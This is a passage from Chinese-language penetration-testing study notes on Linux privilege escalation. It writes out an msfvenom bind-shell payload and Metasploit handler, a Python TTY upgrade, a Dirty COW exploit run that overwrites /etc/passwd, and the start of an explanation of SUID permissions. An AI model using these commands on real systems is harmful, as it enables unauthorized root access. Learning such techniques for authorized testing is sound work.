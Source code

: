 2.可写目录/tmp下上传msf木马，并msf监听

```bash
msfvenom -p linux/x86/shell/bind_tcp lport=4567 -f elf >4567.elf
```

攻击机msf设置

```bash
use exploit/multi/handler
set payload linux/x86/shell/bind_tcp
set lport 4567
set rhost 192.168.100.247
run
```

3.获取shell，将简单的shell转换为完全交互式的TTY

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

4.蚁剑将提权的exp上传到目标机，并执行exp

上传的exp要设置为最高权限

```bash
chmod 777 dcow-shell-ubuntu
./dcow-shell-ubuntu -s

echo 0 > /proc/sys/vm/dirty_writeback_centisecs
cp /tmp/.ssh_bak /etc/passwd
rm /tmp/.ssh_bak
id
```

​![image](assets/image-20241029194258-03tk4sa.png)​

#### suid提权

> 概念：作用于二进制可执行程序上，当执行这个程序时会临时切换身份为文件所有者身份。如:典型的用户修改密码  
>
> 权限设定方法:  
> 1.字母表示法:  
> chmod u+s FILE ... → 添加SUID权限  
> chmod u-s  FILE ... → 删除SUID权限  
> 2.数字表示法:
>
> chmod 4755 FILE >添加SUID权限到二进制程序文件  ** 在普通三位数字权限之前，用4代表添加到SUID位  
> chmod 0xxx  FILE >可以删除文件的SUID  
>
> 文件权限表示:
>
> 文件属主的x权限用s(小写s)代替，表示被设置了SUID
>